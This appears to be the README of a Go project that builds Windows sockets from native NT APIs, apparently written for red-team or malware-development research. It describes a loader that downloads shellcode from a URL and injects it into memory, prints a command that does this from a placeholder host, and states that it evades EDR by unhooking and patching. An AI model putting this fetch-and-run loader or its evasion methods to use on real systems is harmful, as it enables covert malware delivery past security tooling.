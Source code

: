 # go-nt-socket

a pure go implementation of windows sockets using native nt apis, avoiding winsock entirely.

## demo
https://github.com/user-attachments/assets/1ab131dd-34d5-4e29-90e4-8cbefde25d5a



## credits

this project builds upon research and techniques from various security researchers:
- [Original NT Socket Research](https://www.x86matthew.com/view_post?id=ntsockets) by x86matthew
- [Rust Implementation](https://github.com/Whitecat18/Rust-for-Malware-Development/tree/main/NtSockets) by [@5mukz](https://twitter.com/5mukx) (like a lot of my projects, shoutout him lol)
- my go-native-syscall library for nt api access and access to rtl calls for heap ops

## features

- tcp/udp socket creation using afd endpoints
- dns resolution via udp sockets  
- http file downloading
- shellcode injection using private heap allocation
- file operations using nt apis
- content verification and retry mechanisms

## usage
```bash
# from project root
go run ./server/fileserver.go

# this serves test files on `http://localhost:8080/test.txt` and `http://localhost:8080/calc.bin`
# then open a new shell to perform the download or injection passing either as the url based on ur desired flag :3

```


### file download mode
```bash

./go-nt-socket.exe http://example.com/file.txt output.txt
```

### shellcode injection mode
```bash
./go-nt-socket.exe http://example.com/shellcode.bin dummy --inject
```

**important**: when using `--inject` mode, you must pass `dummy` (or any string) as the output file parameter. this parameter is ignored during injection but required by the argument parser.

## building

```bash
export CGO_ENABLED=1 # bc of go-native-syscall (ironic isn't it)
go mod tidy
go build -o go-nt-socket.exe ./cmd
```

## notes

- requires windows (uses nt apis)
- shellcode injection uses heap allocation to avoid go garbage collector interference  
- includes content verification to detect memory corruption
- implements manual http/1.0 client without standard library dependencies
- uses unhooking and patching techniques for edr evasion





